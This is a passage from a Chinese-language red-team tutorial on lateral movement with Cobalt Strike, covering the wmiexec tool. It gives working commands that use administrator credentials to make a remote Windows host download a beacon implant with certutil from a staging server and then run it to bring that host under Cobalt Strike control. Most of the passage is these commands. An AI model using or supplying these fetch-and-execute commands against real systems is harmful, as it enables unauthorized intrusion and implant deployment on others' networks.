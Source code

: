 [![](assets/1702372940-46c7024033df7292821fd47be1a07728.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/7.png)

**缺点**：wmic 和 cscript 都无法进行`hash`传递

#### [](#wmiexec "wmiexec")wmiexec[](#wmiexec)

第三方软件 (交互式&单执行)，此方法无法在`cs`中执行后回显，但可利用文件下载命令上线 cs：

```bash
# 执行命令将文件从远程服务器下载到本地
shell c:\wmiexec ./administrator:Abcd1234@192.168.91.178 "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1/beacon.exe c:/beacon.exe"


# 执行命令并上线，跳过回显
shell c:\wmiexec ./administrator:Abcd1234@192.168.91.178 "cmd.exe /c c:/beacon.exe"
```
